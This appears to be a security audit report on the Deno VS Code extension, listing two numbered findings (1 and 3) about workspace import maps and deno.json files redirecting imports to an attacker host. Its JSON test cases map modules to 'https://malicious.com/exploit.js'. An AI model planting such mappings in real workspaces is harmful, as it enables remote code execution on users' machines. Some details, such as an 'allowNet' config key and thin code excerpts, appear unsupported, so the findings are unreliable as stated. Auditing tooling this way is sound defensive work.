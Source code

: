 ### Vulnerability 1: Unvalidated Import Maps Leading to Arbitrary Code Execution
**Description**:
The extension allows Deno's language server to use `import_map.json` or `deno.json` configuration files provided by the workspace without validating or sanitizing the URLs specified in these files. Attackers can craft a malicious `import_map.json` file in a workspace to redirect module imports to attacker-controlled URLs. When the extension processes files using the Deno language server, it will fetch and execute modules from these malicious URLs, potentially leading to remote code execution (RCE).

**Trigger Steps**:
1. An attacker creates a malicious workspace with a crafted `import_map.json` pointing to a hostile module URL (e.g., `https://malicious.com/exploit.js`).
2. The attacker opens the workspace in VSCode with the Deno extension enabled.
3. The extension reads the `import_map.json` during language server initialization (via `commands.ts:startLanguageServer`).
4. The Deno language server uses the malicious import map, resolving dependencies to attacker-controlled URLs.
5. When the user interacts with files in the workspace (e.g., viewing diagnostics or running commands), the server fetches and executes modules from the malicious URLs.

**Impact**:
Attackers can execute arbitrary code in the user's environment by hijacking module resolution. This could lead to data theft, system compromise, or unauthorized access.

**Vulnerability Rank**: Critical
**Currently Implemented Mitigations**: None. The code directly uses the `importMap` setting from configuration without validation.
**Missing Mitigations**:
- Validation of URLs in import maps to restrict to trusted domains.
- User confirmation prompt before loading external import maps.
- Sandbox execution of third-party modules.
**Preconditions**:
- A malicious `import_map.json` or `deno.json` file exists in the workspace.
- The Deno extension is enabled for the workspace.

**Source Code Analysis**:
In `client/src/commands.ts`, the `transformDenoConfiguration` function directly passes the user-provided `importMap` setting to the language server:
```typescript
config = vscode.workspace.getConfiguration(EXTENSION_NS);
// ...
return { ...denoConfiguration };
```
The Deno language server then uses this import map without validating URLs, leading to untrusted module resolution.

**Security Test Case**:
1. Create a malicious `import_map.json` with a hostile `mappings` entry:
```json
{
  "imports": {
    "harmless-module": "https://malicious.com/exploit.js"
  }
}
```
2. Place this file in a VSCode workspace.
3. Enable Deno for the workspace via `deno.enable` or a `deno.json` file.
4. Open a file importing `harmless-module` (e.g., `import { func } from "harmless-module";`).
5. Observe that the extension's language server fetches and executes code from `https://malicious.com/exploit.js`, triggering RCE.

---

### Vulnerability 3: Unauthorized Deno Configuration Loading
**Description**:
The extension automatically enables Deno configurations (`deno.json`) in workspaces without explicit user confirmation. Attackers can place a malicious `deno.json` in a workspace to configure dangerous settings (e.g., enabling unstable features or unsafe import mappings), which the extension applies without user approval.

**Trigger Steps**:
1. An attacker creates a `deno.json` file in a workspace with malicious settings:
```json
{
  "allowNet": ["*"],
  "importMap": "https://malicious.com/import_map.json"
}
```
2. The user opens the workspace.
3. The extension automatically loads the `deno.json` and applies its configurations, granting broad permissions and redirecting imports to hostile sources.

**Impact**:
Attackers can gain network access or execute modules from untrusted sources without user consent.

**Vulnerability Rank**: High
**Currently Implemented Mitigations**: The extension checks for `deno.json` but does not require user confirmation.
**Missing Mitigations**:
- Prompt users to review configurations before applying them.
- Restrict permissions by default unless explicitly granted.
**Preconditions**:
- A malicious `deno.json` exists in the workspace.

**Source Code Analysis**:
In `client/src/enable.ts`, `isPathEnabled` enables Deno based on presence of `deno.json` without user interaction:
```typescript
return scopesWithDenoJson.some((scope) => pathStartsWith(filePath, scope));
```
This auto-enables the configuration without prompting the user.

**Security Test Case**:
1. Create a `deno.json` with dangerous settings as shown above.
2. Open the workspace in VSCode.
3. Check that Deno configurations are applied automatically, granting unrestricted network access and importing from malicious URLs.
